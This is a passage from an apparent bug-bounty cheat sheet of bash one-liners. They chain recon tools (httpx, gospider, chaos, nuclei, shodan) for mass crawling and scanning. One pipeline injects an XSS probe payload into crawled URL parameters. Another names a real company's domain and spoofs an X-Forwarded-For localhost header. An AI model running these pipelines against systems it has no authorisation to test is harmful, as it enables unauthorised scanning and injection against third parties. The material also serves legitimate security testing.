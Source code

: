 - [Explained command]

```bash
httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -l domain -timeout 5 -threads 200 --follow-redirects -silent | gargs -p 3 'gospider -m 5 --blacklist pdf -t 2 -c 300 -d 5 -a -s {}' | anew stepOne
```

###  Injection xss using qsreplace to urls filter to gospider

- [Explained command]

```bash
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

###  Extract URL's to apk

- [Explained command]

```bash
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemas.android\|google\|goo.gl"
```

###  Chaos to Gospider

- [Explained command]

```bash
chaos -d att.com -o att -silent | httpx -silent | xargs -P100 -I@ gospider -c 30 -t 15 -d 4 -a -H "x-forwarded-for: 127.0.0.1" -H "User-Agent: Mozilla/5.0 (Linux; U; Android 2.2) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1" -s @
```

###  Checking invalid certificate

- [Real script](https://bit.ly/2DhAwMo)
- [Script King](https://bit.ly/34Z0kIH)

```bash
xargs -a domain -P1000 -I@ sh -c 'bash cert.sh @ 2> /dev/null' | grep "EXPIRED" | awk '/domain/{print $5}' | httpx
```

###  Using shodan & Nuclei

- [Explained command]

Shodan is a search engine that lets the user find specific types of computers connected to the internet, AWK Cuts the text and prints the third column.
httpx is a fast and multi-purpose HTTP using -silent. Nuclei is a fast tool for configurable targeted scanning based on templates offering massive extensibility and ease of use, You need to download the nuclei templates.

```bash
shodan domain DOMAIN TO BOUNTY | awk '{print $3}' | httpx -silent | nuclei -t /nuclei-templates/
```
